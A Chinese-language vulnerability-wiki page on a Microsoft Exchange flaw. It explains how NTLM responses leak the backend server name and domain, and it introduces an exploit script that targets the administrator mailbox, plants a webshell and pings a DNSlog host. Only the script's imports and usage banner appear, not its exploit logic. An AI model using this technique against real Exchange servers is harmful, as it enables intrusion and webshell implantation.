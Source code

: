 > [!NOTE]
>
> 其中一次攻击中的日志

![](http://wikioss.peiqi.tech/vuln/exchan-10.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

可以看到首先请求了 **/rpc/**  这个目录

根据网上公布的 POC与EXP，可以看到 NTML协商消息会返回我们NTML询问信息， 其中包含了 AV_PAIR结构，其中包含了 后端服务器名称与域名

![](http://wikioss.peiqi.tech/vuln/exchan-11.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

base64解密其中的加密部分

![](http://wikioss.peiqi.tech/vuln/exchan-12.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

在通过解包的方法转换其中的数据就可以得到完整的后端服务器名称与域名

![](http://wikioss.peiqi.tech/vuln/exchan-13.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

后面的大家就参考文章和EXP来研究原理吧，几篇文章和EXP已经很完整了

## 漏洞利用POC

> [!NOTE]
>
> EXP根据推特和Github几个脚本更改
>
> 默认打的邮箱为 administrator@xxx.xxx.cn(可以自行更改)
>
> webshell路径和脚本文件中更改
>
> 运行的命令是 ping Dnslog证明漏洞存在(一些东西就大家自己看看脚本改吧~)

![](http://wikioss.peiqi.tech/vuln/exchan-14.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

IMAGE/EXCHAN-15.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

```python
#!/usr/bin/python2
# coding: UTF-8

import re
import sys
import json
import string
import requests
from urllib import urlencode
from tld import get_fld
from struct import unpack
from base64 import b64encode, b64decode
from requests.packages.urllib3.exceptions import InsecureRequestWarning


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')
    print('+  \033[34mVersion: Microsoft Exchang 多个版本                                \033[0m')
    print('+  \033[36m使用格式:  python poc.py                                           \033[0m')
    print('+  \033[36mUrl         >>> mail.xxx.org                                       \033[0m')
    print('+  \033[36mEmail       >>> Administrator@根域名  (默认)                        \033[0m')
    print('+------------------------------------------')

```